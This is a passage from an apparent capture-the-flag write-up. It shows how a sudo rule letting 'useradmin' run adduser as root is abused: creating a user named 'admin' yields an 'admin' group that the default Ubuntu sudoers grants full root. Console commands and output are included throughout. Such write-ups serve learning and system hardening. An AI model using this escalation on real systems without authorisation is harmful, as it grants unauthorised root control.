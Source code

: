 ## Privilege Escalation

Checking to see what the `useradmin` user can run as root, we see that we're able to run `adduser`, but we're limited to alphanumeric characters, so no passing arguments like `--uid`. 

```console
useradmin@manage:~$ sudo -l
Matching Defaults entries for useradmin on manage:
    env_reset, timestamp_timeout=1440, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User useradmin may run the following commands on manage:
    (ALL : ALL) NOPASSWD: /usr/sbin/adduser ^[a-zA-Z0-9]+$
```

We're given a hint on this box to look at the default Ubuntu sudoers file. When we do, we see that members of the `admin` group may gain root privileges

```console
# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL
```

Since we know that when a new user is created, a matching group is created (by default), if we add an `admin` user, then the `admin` group should be added and the `admin` user will be added automatically. 

```console
useradmin@manage:~$ sudo /usr/sbin/adduser admin
Adding user `admin' ...
Adding new group `admin' (1003) ...
Adding new user `admin' (1003) with group `admin' ...
Creating home directory `/home/admin' ...
Copying files from `/etc/skel' ...
New password:
Retype new password:
passwd: password updated successfully
Changing the user information for admin
Enter the new value, or press ENTER for the default
        Full Name []: Admin
        Room Number []:
        Work Phone []:
        Home Phone []:
        Other []:
Is the information correct? [Y/n]
```

After switching to the admin user and running `sudo -l` again, we see that we can run any command as root.

```console
admin@manage:/home/useradmin$ sudo -l
[sudo] password for admin:
Matching Defaults entries for admin on manage:
    env_reset, timestamp_timeout=1440, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User admin may run the following commands on manage:
    (ALL) ALL
```
